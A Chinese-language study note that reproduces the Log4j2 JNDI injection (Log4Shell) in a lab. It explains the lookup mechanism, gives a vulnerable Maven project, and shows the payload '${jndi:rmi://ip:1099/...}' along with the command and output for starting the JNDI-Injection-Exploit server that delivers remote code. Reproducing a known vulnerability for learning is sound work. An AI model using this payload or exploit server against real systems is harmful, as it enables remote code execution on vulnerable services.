 # 特别章节

**本章节主要讲述一些平时碰到的问题有感,比较杂乱回头会整理到大框架中**

## 1. 关于log4j的漏洞

[参考链接](https://www.anquanke.com/post/id/262668#h3-10)

[参考链接2](https://rickgray.me/2016/08/19/jndi-injection-from-theory-to-apply-blackhat-review/)

### 1.1 相关环境

Apache **Log4j2**是一个基于Java的日志记录工具。由于Apache Log4j2某些功能存在递归解析功能，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响。

漏洞适用版本为2.0 <= Apache log4j2 <= 2.14.1，只需检测Java应用是否引入 log4j-api , log4j-core 两个jar。若存在应用使用，极大可能会受到影响。

### 1.2 原理

先说一下大致原理,方便后面的环境搭建和详细了解

1. 执行注入

   + log4j在输出日志时(debug、info、warn、error、fatal)对字符串中'${'做了检测
   + 如果发现,会继续检测'}'字符
   + 如果满足以上条件,会将${}中的表达式提取并交给lookup函数执行
   + 通过调试发现interpolator类的lookup函数会以**:**为分隔符进行分割以获取prefix内容,根据参数类型调用不同的LookUp类(例如${jndi:rmi://ip:1099/c6eurw} 会调用JndiLookup类)
   + 最后执行到javax/naming/InitialContext.java 原生lookup解析函数

2. 调用外部恶意接口

   上述注入命令会通过rmi/ldap方式调用外部恶意接口,从而设法将恶意代码上传到服务器(本例中是一个构造方法中嵌入恶意命令的class文件)

3. 上传到服务器的恶意代码被解析并运行(对获取的类初始化,调用构造方法时执行恶意命令),从而完成入侵的目的

### 1.3 搭建模拟环境

创建maven项目,打印log4j日志

pom文件如下:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>com.log4j.bug</groupId>
    <artifactId>bugtest</artifactId>
    <version>1.0-SNAPSHOT</version>
    <packaging>jar</packaging>
    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
    </dependencies>
    <build>
        <plugins>
            <plugin>
                <groupId>org.apache.maven.plugins</groupId>
                <artifactId>maven-assembly-plugin</artifactId>
                <executions>
                    <execution>
                        <phase>package</phase>
                        <goals>
                            <goal>single</goal>
                        </goals>
                        <configuration>
                            <archive>
                                <manifest>
                                    <mainClass>
                                        LogTest
                                    </mainClass>
                                </manifest>
                            </archive>
                            <descriptorRefs>
                                <descriptorRef>jar-with-dependencies</descriptorRef>
                            </descriptorRefs>
                        </configuration>
                    </execution>
                </executions>
            </plugin>
        </plugins>
    </build>
</project>
```

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class LogTest {
    private static final Logger logger = LogManager.getLogger();
    public static void main(String[] args){
        // 避免因为Java版本过高而无法触发此漏洞
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase","true");
        logger.error("${jndi:rmi://ip:1099/c6eurw}");
    }
}
```

创建jndi服务用来上传恶意代码

[项目地址](https://github.com/welk1n/JNDI-Injection-Exploit)

点击项目地址下载测试服务器

启动命名为

`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar  -C "open calc"`

注:-c 后面参数为恶意代码执行的指令现在是打开window服务器端的计算器程序

启动效果如下

```
PS C:\Users\index-dev\Desktop\javamap\java-map> java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar  -C "open calc"
[ADDRESS] >> 192.168.0.137
[COMMAND] >> open calc
----------------------------JNDI Links----------------------------
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://192.168.0.137:1099/hamu5u
ldap://192.168.0.137:1389/hamu5u
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://192.168.0.137:1099/jayvdh
ldap://192.168.0.137:1389/jayvdh
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://192.168.0.137:1099/bwoyxz
----------------------------Server Log----------------------------
2022-01-05 16:37:05 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2022-01-05 16:37:05 [RMISERVER]  >> Listening on 0.0.0.0:1099
2022-01-05 16:37:07 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

此时运行java中的日志打印方法就会调用远程服务器的rmi服务获取到恶意代码并执行,效果是打开了服务器端计算器

### 1.4 相关概念

#### 1.4.1  JNDI

JNDI - Java Naming and Directory Interface 名为 Java命名和目录接口，具体的概念还是比较复杂难懂，具体结构设计细节可以不用了解，简单来说就是 JNDI 提供了一组通用的接口可供应用很方便地去访问不同的后端服务，例如 LDAP、RMI、CORBA 等。

1. JNDI 获取并调用rmi远程方法:

   ```java
   //需要继承remote接口才能提供对外服务
   public interface JndiRmiTestInterface  extends Remote, Serializable {
       public void test();
   }
   //创建提供服务的子类 实现上述接口,因为实际提供的是代理对象所以一定要通过接口的方式提供rmi服务
   import javax.naming.Context;
   import javax.naming.InitialContext;
   import java.rmi.RemoteException;
   import java.rmi.registry.LocateRegistry;
   import java.rmi.registry.Registry;
   import java.util.Properties;
   
   public class JndiRmiTest  implements JndiRmiTestInterface {
       public JndiRmiTest() throws RemoteException {
           System.out.println("执行了构造方法");
       }
       @Override
       public void test(){
           System.out.println("调用了test方法");
       }
       public static void main(String args[]) throws Exception {
           // 配置 JNDI 默认设置
           Properties env = new Properties();
           env.put(Context.INITIAL_CONTEXT_FACTORY,
                   "com.sun.jndi.rmi.registry.RegistryContextFactory");
           env.put(Context.PROVIDER_URL,
                   "rmi://192.168.0.137:1099");
           Context ctx = new InitialContext(env);
           // 本地开启 1099 端口作为 RMI 服务，并以标识 "hello" 绑定方法对象
           Registry registry = LocateRegistry.createRegistry(1099);
           JndiRmiTest jndiRmiTest = new JndiRmiTest();
           registry.bind("jndiRmiTest", jndiRmiTest);
           // JNDI 获取 RMI 上的方法对象并进行调用
           Object jndiRmiTest2 = ctx.lookup("jndiRmiTest");
           JndiRmiTest jndiRmiTest1 = (JndiRmiTest)ctx.lookup("jndiRmiTest");
           jndiRmiTest1.test();
       }
   }
   //结果
   执行了构造方法
   调用了test方法
   ```

   ![](resource\JndiRmi.jpg)

